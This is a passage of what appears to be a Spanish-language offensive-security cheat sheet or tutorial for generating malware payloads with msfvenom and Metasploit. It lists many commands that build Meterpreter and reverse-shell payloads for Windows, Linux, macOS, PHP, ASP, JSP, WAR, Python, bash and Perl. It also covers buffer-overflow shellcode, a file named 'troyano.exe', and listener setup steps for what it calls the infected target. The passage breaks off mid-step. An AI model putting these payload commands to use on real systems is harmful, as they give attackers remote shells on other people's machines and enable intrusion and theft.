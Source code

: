 ```
# Para Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -o troyano.exe
```
```
# Para Linux
msfvenom -p linux/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -o troyano.exe
```
```
# Buffer Overflow en Linux - Shellcode
msfvenom -p linux/x86/shell_reverse_tcp lhost=[ip_atacante] lport=[puerto_atacante] --format c --arch x86 --platform linux 
--bad-chars "\x00\x09\x0a\x20" --out shellcode
```
</b>

<b>Ejemplos de generación de un Meterpreter con MSFVenom:</b>
<b>

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform windows -a x64 -n 200 -e generic/none -i 4 
-f exe -o reverse_shell.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f elf > shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f exe > shell.exe
msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f macho > shell.macho
msfvenom -p php/meterpreter_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && 
echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f war > shell.war
msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py
msfvenom -p cmd/unix/reverse_bash LHOST="10.10.10.110" LPORT=4242 -f raw > shell.sh
msfvenom -p cmd/unix/reverse_perl LHOST="10.10.10.110" LPORT=4242 -f raw > shell.pl
msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=192.168.1.222 lport=1234 -f elf -o origen_shell
```
</b>

- <b>Paso 4</b>: Volviendo a Metasploit Framework, configuramos el payload con el que se va a realizar la escucha, es decir, con el que realmente se ha infectado al host objetivo.
<b>

```
# Para un sistema de 64 bits
set payload windows/x64/meterpreter/reverse_tcp
```
```
# Para un sistema de 32 bits
set payload windows/meterpreter/reverse_tcp
```
</b>

- <b>Paso 5</b>: Posteriomente, se configuran la ip y puerto del atacante (escucha)
<b>

